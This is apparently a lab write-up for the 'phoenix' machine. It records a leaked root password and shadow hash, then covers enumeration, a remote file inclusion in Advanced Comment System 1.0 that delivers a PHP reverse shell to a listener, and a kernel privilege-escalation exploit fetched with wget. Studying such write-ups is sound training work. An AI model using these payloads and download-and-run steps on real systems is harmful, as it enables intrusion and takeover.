






# phoenix
## Summary
### System Information
```text
IP: 10.11.1.8
OS: Linux
Hostname: phonix
```
### Credentials
```text
root:aCs2009offsec
```

### Hashes
```text
f56a325ef00d4553a4046b7eacc5d667

root:$1$2xFdVkZ.$qezz2fIJmpMkAX8QaNt/h/:16902:0:99999:7:::
```

## Enumeration
### Ports
```text
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         vsftpd 2.0.1
22/tcp   open   ssh         OpenSSH 3.9p1 (protocol 1.99)
25/tcp   closed smtp
80/tcp   open   http        Apache httpd 2.0.52 ((CentOS))
111/tcp  open   rpcbind     2 (RPC #100000)
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
443/tcp  open   ssl/http    Apache httpd 2.0.52 ((CentOS))
445/tcp  open   netbios-ssn Samba smbd 3.0.33-0.17.el4 (workgroup: MYGROUP)
631/tcp  open   ipp         CUPS 1.1
3306/tcp open   mysql?
```

## Writeup
### Foothold

Website accessible on port `80` and `443`. Both host the same site.


We can run a `gobuster` scan to fuzz for directories and files that may be present.

```bash
gobuster dir -u http://10.11.1.8 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x php,txt -o scans/gobuster.txt
```

We get a few directories along with `robots.txt`.


```bash
curl 10.11.1.8/robots.txt
```



The `/tmp` directory doesn't lead us to anything but `/internal` gives us another page with a comment system.



We can view the source of the website using `curl`.

```bash
curl http://10.11.1.8/internal/ | head
```



The website seems to be loading some assets under the name `advanced_comment_system`.

There are actually 2 ways to exploit the `Advanced Comment System`. One of which is a more recent proof of concept exploit to make our lives easier but is based on the same RFI vulnerability. I will list both methods of getting a shell on the target.

#### Method 1 - Advanced Comment System 1.0 RCE

After a bit of researcher we find an [Advanced Comment System 1.0 - Remote Code Execution](https://packetstormsecurity.com/files/165108/acs10-exec.txt) exploit.

```bash
curl https://dl.packetstormsecurity.net/2112-exploits/acs10-exec.txt -o acspoc.py
```

All we need to do is change one of the lines to work with out specific environment.

```bash
url = 'http://10.11.1.8/internal/advanced_comment_system/index.php'
```

We can now test the exploit.

```bash
python3 acspoc.py id
```



#### Method 2 - Advanced Comment System 1.0 Remote RFI

There is an [exploit](https://www.exploit-db.com/exploits/9623) we can use on ExploitDB. To exploit this we will first create a reverse shell payload, saving it as `shell.php`.

```php
<?php system("bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1") ?>
```

It's also worth nothing that I originally tested using port `9001`. This was unsuccessful but port `443` worked. This would come down to some sort of firewall rules blocking these outbound connections.

Next we need to setup a python web server.

```bash
python3 -m http.server 80
```

We also need to get a `netcat` listener going to catch our callback from the payload.

```bash
rlwrap nc -lnvp <LPORT>
```

Now we craft a url to get a response from our local web server and execute our payload.

```url
http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://<LHOST>/shell.php%00
```

The `%00` at the end of the url is a nullbyte to stop any other code afterwards from being included in the request back to our web server. Without it, the hit on our web server shows `shell.phpconfig.php` as the original file being required is `config.php`.

If we use `curl` we can trigger our payload to execute and get a shell on the target.

```bash
curl http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://<LHOST>/shell.php%00
```

And we get a shell!



I've quickly stabilised the shell a bit as well.

```bash
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

### Privilege Escalation

Now we can start enumerating the system. Listing the files in the current directory gives us a `config.php` file. Inside this file are credentials for a database.

I first looked for any kernel exploits.

```bash
uname -a
```

```text
Linux phoenix 2.6.9-89.EL #1 Mon Jun 22 12:19:40 EDT 2009 i686 athlon i386 GNU/Linux
```

I Googled `linux 2.6.9` and found [https://github.com/xiaoxiaoleo/CVE-2009-2698](https://github.com/xiaoxiaoleo/CVE-2009-2698) with a pre-compiled exploit.

We first need to upload it to the target.

```bash
wget https://github.com/xiaoxiaoleo/CVE-2009-2698/raw/master/exp -O exp
python3 -m http.server 80
```

```bash
wget http://192.168.119.241/exp
chmod +x exp
./exp
```

And we get our root shell!

```bash
cat /root/proof.txt && ifconfig
```

  

```text
f56a325ef00d4553a4046b7eacc5d667
```